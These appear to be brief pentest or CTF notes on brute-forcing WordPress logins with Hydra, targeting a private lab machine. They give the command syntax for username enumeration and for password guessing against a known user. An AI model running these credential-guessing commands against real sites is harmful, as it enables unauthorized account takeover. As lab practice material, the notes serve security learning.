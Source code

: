 ## wplogin 
`when wpscan can't enumerate users`

tip : just copy the post request and arrange it
```
hydra -L USERFILE -P PASSWORDFILE DOMAIN/IP METHOD "REDIRECTIONURL:PARAMETERS:FAILMESSAGE:H=COOKIES"
```
**FOR POST req** - http-post-form

**FOR GET req** - http-get-form



**username** 
```bash
hydra -L fsocity.dic -P /usr/share/wordlists/wfuzz/others/common_pass.txt 192.168.56.115 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.115%2Fwp-admin%2F&testcookie=1:Invalid username" -V
```

**password**

- syntax

```bash
hydra -vV -l [valid-username] -P [password-list] [IP] [http-post-form] '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```
eg
```bash
hydra -vV -l elliot -P password-list 192.168.56.115 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```
